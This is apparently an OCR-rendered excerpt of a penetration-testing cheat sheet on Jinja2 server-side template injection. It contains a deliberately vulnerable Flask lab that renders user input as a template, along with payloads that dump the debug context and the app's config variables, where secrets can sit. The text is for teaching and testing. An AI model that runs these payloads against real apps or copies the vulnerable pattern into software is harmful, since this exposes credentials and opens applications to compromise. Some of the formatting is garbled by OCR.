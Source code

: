# Jinja2 SSTI



## **Lab**

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
    if request.args.get('c'):
        return render_template_string(request.args.get('c'))
    else:
        return "Hello, send someting inside the param 'c'!"

if __name__ == "__main__":
    app.run()
```
```
## **Misc**

### **Debug Statement**

If the Debug Extension is enabled, a `debug` tag will be available to dump the current context as well as the available filters and tests. This is useful to see what’s available to use in the template without setting up a debugger.

```python
<pre>

{% raw %}
{% debug %}
{% endraw %}





</pre>
```
```
Source: [[https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement|https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement]]

### **Dump all config variables**

```python
{{ config }} #In these object you can find all the configured env variables

{% raw %}
{% for key, value in config.items() %}
    {{ key\|e }}

    :   {{ value\|e }}

{% endfor %}
{% endraw %}




```